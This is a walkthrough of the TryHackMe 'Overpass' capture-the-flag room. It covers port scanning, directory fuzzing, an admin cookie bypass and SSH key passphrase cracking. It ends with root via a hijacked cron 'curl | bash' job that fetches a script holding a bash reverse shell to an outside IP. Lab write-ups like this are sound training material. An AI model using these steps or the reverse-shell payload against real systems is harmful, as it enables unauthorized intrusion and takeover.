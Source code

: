 ```yaml
---
title: Overpass-writeup-THM
date: 2024-01-03 10:00:00
categories: [room, easy]
tags: [linux, privesc, crontab]     # TAG names should always be lowercase
image: https://raw.githubusercontent.com/Blueaulo/Overpass-writeup-THM/main/f08d4045-89e3-45d5-9ed3-0f650f39cb59_Export-a6534518-0a1b-40b8-b980-4ff782785aa3/Overpass%205b2344c2eb5141888e86ae3e2746ed53/Untitled.png
---
```

My writeup of the TryHackMe room "<a href="https://tryhackme.com/room/overpass">Overpass</a>"

The first thing that I am going to do is a nmap scna:

```bash
nmap 10.10.192.193      

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-01 09:30 EST
Nmap scan report for 10.10.192.193
Host is up (0.059s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 7.19 seconds
```

From there we can see that the host is running ssh and a web page, let’s see what;s in the web page.

![Untitled](https://raw.githubusercontent.com/Blueaulo/Overpass-writeup-THM/main/f08d4045-89e3-45d5-9ed3-0f650f39cb59_Export-a6534518-0a1b-40b8-b980-4ff782785aa3/Overpass%205b2344c2eb5141888e86ae3e2746ed53/Untitled.png)

Looking at the source code I have found this:

```bash
Overpass allows you to securely store different
                passwords for every service, protected using military grade
                <!--Yeah right, just because the Romans used it doesn't make it military grade, change this?-->
                cryptography to keep you safe.
```

The commented part can be a hint that the password are stored using ROT13.

After that I ran a directory discovery scan:

```bash
ffuf -u http://10.10.192.193/FUZZ -w /usr/share/wordlists/dirb/big.txt 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.192.193/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

aboutus                 [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 58ms]
admin                   [Status: 301, Size: 42, Words: 3, Lines: 3, Duration: 57ms]
css                     [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 58ms]
downloads               [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 71ms]
img                     [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 57ms]
:: Progress: [20469/20469] :: Job [1/1] :: 338 req/sec :: Duration: [0:00:36] :: Errors: 0 ::
```

Going into the admin page I got meeted with a login form.

This login form loads a script:

```bash
if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
}
```

This script bascially allows you to create a token named SessionToken, and make a value different from “Incorrect credentials” and gives you access in the admin page

![Untitled](https://raw.githubusercontent.com/Blueaulo/Overpass-writeup-THM/main/f08d4045-89e3-45d5-9ed3-0f650f39cb59_Export-a6534518-0a1b-40b8-b980-4ff782785aa3/Overpass%205b2344c2eb5141888e86ae3e2746ed53/Untitled%201.png)

We found out a ssh key, now I am going to try and access james account with it:

```bash
chmod 400 id_rsa                 
                                                                                                                                                                                                
┌──(kali㉿kali)-[~]
└─$ ssh -i id_rsa james@10.10.192.193
Enter passphrase for key 'id_rsa':
```

Seems like it wants a passphrase.

We can retrieve that with John:

```bash
ssh2john id_rsa > id.txt
                                                                                                                                                                                                
┌──(kali㉿kali)-[~]
└─$ john --wordlist=/usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou.txt id.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
<redacted>          (id_rsa)     
1g 0:00:00:00 DONE (2024-01-01 09:58) 100.0g/s 1337Kp/s 1337Kc/s 1337KC/s pimentel..handball
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

And it worked:

```bash
ssh -i id_rsa james@10.10.192.193                                                          

Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-108-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Jan  1 15:00:25 UTC 2024

  System load:  0.12               Processes:           88
  Usage of /:   22.3% of 18.57GB   Users logged in:     0
  Memory usage: 13%                IP address for eth0: 10.10.192.193
  Swap usage:   0%

47 packages can be updated.
0 updates are security updates.

Last login: Sat Jun 27 04:45:40 2020 from 192.168.170.1
james@overpass-prod:~$ whoami
james
```

Once there I found this, in the .overpass file:

```bash
[{"name":"System","pass":"saydrawnlyingpicture"}]
```

Which is James’s password

```bash
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
# Update builds from latest code
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```

Looks like there is a crontab running which uses curl totake the buildscript.sh and run that.

From there I just edited the /etc/hosts file and I addes my IP, so now when it will try to retrieve the script, it will retrive it from me.

So I made this script inside a /downloads/src/ folder:

```bash
cat buildscript.sh 
#!/bin/bash

/bin/bash -i >& /dev/tcp/10.18.20.116/5555 0>&1
```

So when I started the server it took my script and I got a reverse shell:

```bash
nc -lvnp 5555

listening on [any] 5555 ...
connect to [10.18.20.116] from (UNKNOWN) [10.10.192.193] 39270
bash: cannot set terminal process group (2104): Inappropriate ioctl for device
bash: no job control in this shell
root@overpass-prod:~# whoami
whoami
root
```